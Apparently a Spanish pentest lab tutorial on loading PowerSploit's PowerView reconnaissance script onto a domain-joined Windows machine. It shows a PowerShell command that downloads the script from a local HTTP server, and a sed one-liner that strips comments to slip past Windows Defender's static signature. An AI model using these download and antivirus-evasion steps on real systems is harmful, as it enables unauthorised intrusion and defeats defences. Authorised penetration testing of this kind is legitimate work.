







POWER VIEW
Vamos a configurar una GPO que aplique a los equipos dentro de nuestro dominio.
Para ello vamos a herramientas dentro del panel de administración del DomainControles y administración de directivas de grupo.

La añadimos a nivel de dominio.

En este caso la aplicamos a nivel de equipos, en directivas, plantillas administrativas, componentes de windows y powershell.

Para que las políticas se apliquen a las maquinas debemos reiniciarlas porque se aplican a nivel de equipo y no se usuario.
La herramienta powersploit la encontramos en https://github.com/PowerShellMafia/PowerSploit
Esta suite de herramientas sirve para todas las fases de un pentest sobre equipos microsoft.
En este caso usaremos el modulo de reconocimiento.

Descargamos el repositorio y el script que nos interesa es el PowerView.ps1. Cabe destacar que son scripts powershell por lo que es necesario ejecutarlo desde la maquina windows.
Listo esto vamos a suponer que las dos máquinas que tenemos han sido proporcionadas por el cliente para realizar las pruebas.
Una forma muy básica de transferir el archivo a estas maquinas windows es:
python2 -m SimpleHTTPServer
Sirviendo la carpeta donde se encuentra el script vamos a la maquina windows.
(New-Object System.NET.WebClient).DownloadFile("http://192.168.20.128:8000/PowerView.ps1", "powerview.ps1")

Por supuesto si intentamos ejecutar el script directamente . ./powerview.ps1 veremos como windows defender bloqueará el archivo.
Esto es porque existe una firma dentro de windows defender que sabe que tipo de archivo y que contenido tiene este y por eso sabe que no debe ejecutarlo pero es muy sencillo de evadir de la siguiente forma:
En kali:
sed '/<#/,/#>/d' PowerView.ps1 > new_powerview.ps1
Este comando eliminará los comentarios del script haciendo que si la firma de windows defender es estática y mediocre esta deja de detectarlo como un archivo malicioso.
Volvemos a descargar el archivo a la maquina windows y si nos fijamos el archivo pesa menos ya que le hemos eliminado los comentarios.

Y si lo ejecutamos windows ni se dará cuenta.
